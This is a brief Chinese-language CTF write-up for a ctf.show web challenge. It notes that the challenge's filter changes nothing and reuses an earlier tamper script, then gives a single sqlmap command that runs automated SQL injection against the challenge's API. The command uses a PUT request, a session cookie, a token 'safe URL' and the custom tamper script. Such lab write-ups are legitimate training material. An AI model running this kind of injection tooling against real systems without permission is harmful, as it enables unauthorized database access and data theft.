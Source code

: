 # 知识点
*过滤没用影响，所以可以沿用web211的脚本
# 思路
```bash
python sqlmap.py -u "http://ac50365c-a80a-4fb8-ab51-ed846157a08f.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://ac50365c-a80a-4fb8-ab51-ed846157a08f.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211.py

```
![image.png](./images/20231017_2351585302.png)
